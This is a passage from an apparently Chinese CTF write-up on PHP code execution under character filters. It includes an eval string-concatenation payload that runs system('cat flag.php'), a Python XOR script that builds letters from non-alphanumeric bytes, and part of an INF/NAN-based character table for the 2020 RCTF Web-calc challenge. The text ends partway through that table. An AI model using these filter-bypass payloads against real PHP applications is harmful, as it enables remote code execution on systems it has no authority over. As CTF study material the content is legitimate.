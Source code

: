 **2.字符串的拼接**

```
$a="syste";$b="m(%27cat%20flag.php%27);";$c=$a.$b;eval($c);
```

**无字母getshell（限制长度）参考链接**:https://www.cnblogs.com/wangtanzhi/p/12251619.html#autoid-0-1-0

各种php__rce：https://bbs.ichunqiu.com/thread-59273-1-1.html

![image-20201214205716339](https://i.loli.net/2020/12/14/5h12dpSisg4cf9O.png)

简单贴个脚本备用:

```python
import urllib.parse
find = ['G','E','T','_']//这里没有顺序
for i in range(1,256):
    for j in range(1,256):
        result = chr(i^j)
        if(result in find):
            a = i.to_bytes(1,byteorder='big')
            b = j.to_bytes(1,byteorder='big')
            a = urllib.parse.quote(a)
            b = urllib.parse.quote(b)
            print("%s:%s^%s"%(result,a,b))
```

## 四 2020-RCTF-Web-calc

![image-20201214205512805](https://i.loli.net/2020/12/14/7aldUhBmoLSYQPi.png)

屏蔽了一些字母和**不可见字符**，还有一些乱七八糟的东西。跟上面的题类似，不论怎么搞，直接胡乱撸他就完事了。我们取反之后就是一群不可见字符。（划走ing

这里就又有一个小trick

```php
<?php
$a = ((1/0).(1));
var_dump($a{0});
?>
```

这里输出的字符是`I`原理是php是`弱类型`的语言（nodejs就没有这么简单艹）



```php
$cmd = "phpinfo";#要运行的命令
$fin="";
$tables=
    [
        "9" => "(((9).(0)){0})",
        "8" => "(((8).(0)){0})",
        "7" => "(((7).(0)){0})",
        "6" => "(((6).(0)){0})",
        "5" => "(((5).(0)){0})",
        "4" => "(((4).(0)){0})",
        "3" => "(((3).(0)){0})",
        "2" => "(((2).(0)){0})",
        "1" => "(((1).(0)){0})",
        "0" => "(((0).(0)){0})",
        "~" => "((((0).(0)){0})|(((0/0).(0)){0}))",
        "}" => "((((4).(0)){0})|(((1/0).(0)){0}))",
        "|" => "((((4).(0)){0})|((((0/0).(0)){0})&(((1/0).(0)){0})))",
        "{" => "((((2).(0)){0})|(((1/0).(0)){0}))",
        "z" => "((((2).(0)){0})|((((0/0).(0)){0})&(((1/0).(0)){0})))",
        "y" => "((((0).(0)){0})|(((1/0).(0)){0}))",
        "x" => "((((0).(0)){0})|((((0/0).(0)){0})&(((1/0).(0)){0})))",
```